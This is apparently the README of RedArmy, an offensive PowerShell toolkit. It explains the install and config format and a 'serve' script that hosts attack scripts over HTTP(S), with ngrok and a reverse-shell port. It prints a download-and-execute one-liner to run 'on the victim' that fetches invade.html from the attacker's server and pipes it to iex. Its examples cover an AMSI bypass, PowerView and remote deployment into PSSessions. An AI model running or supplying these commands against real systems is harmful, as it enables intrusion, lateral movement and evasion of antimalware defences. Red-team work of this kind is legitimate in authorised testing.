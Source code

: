 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ git submodule foreach "$(pwd)/scripts/update_module" # optional
```

## Configuration

RedArmy uses `config.default` as [the default config]. You can copy it
to `config` and add or delete lines as necessary.

Config entries look like the following:

```
name action path
```

Name and path are fairly self-explanatory. Actions are as follows:

- `get`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
- `get-bin`
    - Creates
        - `Import-<name>`
            - Create assembly object and load into memory
        - `Deploy-<name>`
            - Create assembly object and load into memory in provided
              PSSession
- `run`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Invoke-<name>`
            - Run `iex` on file contents
        - `Invoke-<name>InBg`
            - Run `iex` on file contents in background
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
        - `Deploy-<name>InBg`
            - Create ScriptBlock and run in provided PSSession in
              background
- `run-bin`
    - Not yet implemented

See [the default config] for examples. See [Examples](#examples) for
more details on how to use these functions.

[the default config]: ./config.default

## Usage

```
$ ./serve -h
Usage: serve [OPTIONS] <ip>

Spin up a simple HTTP(S) server to host the RedArmy scripts.

Options:
    --cert=PEM           Use the specified cert PEM file for TLS,
                         implies --tls, requires --key
    -c, --config=FILE    Use the specified config
    -h, --help           Display this help message
    --invade=FILE        Use the specified invade filename instead of
                         invade.html
    --key=PEM            Use the specified key PEM file for TLS,
                         implies --tls, requires --cert
    -n, --ngrok          Use ngrok for TLS (ensure ssh is
                         pre-configured)
    --no-color           Disable colorized output
    -p, --port=NUM       Use the specified port (default: 8080 for
                         HTTP, 8443 for TLS)
    -r, --rport=NUM      Use the specified port for reverse shell
                         (default: 4444)
    --rshell=FILE        Use the specified rshell filename instead of
                         rshell.html
    --skip-validation    Disable TLS certificate validation (for use
                         with self-signed certs)
    --tls                Use TLS
    -u, --update         Update git submodules before starting server
```

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

```
PS> iex ((New-Object System.Net.WebClient).DownloadString("http://<ip>:<port>/invade.html"))
```

That command will also displayed for you to copy and paste for
convenience.

### Examples

- Load ps1 script into current session
    - `iex (Get-PowerView)`
- Load ps1 script into specified session
    - `Deploy-PowerView <session>`
- Load binary object into current session
    - `Import-ADModule`
- Load binary object into specified session
    - `Deploy-ADModule <session>`
- Run ps1 script in current session
    - `Invoke-AMSIBypass`
- Run ps1 script in current session in background
    - `Invoke-AMSIBypassInBg`
- Run ps1 script in specified session
    - `Deploy-AMSIBypass <session>`
- Run ps1 script in specified session in background
    - `Deploy-AMSIBypassInBg <session>`
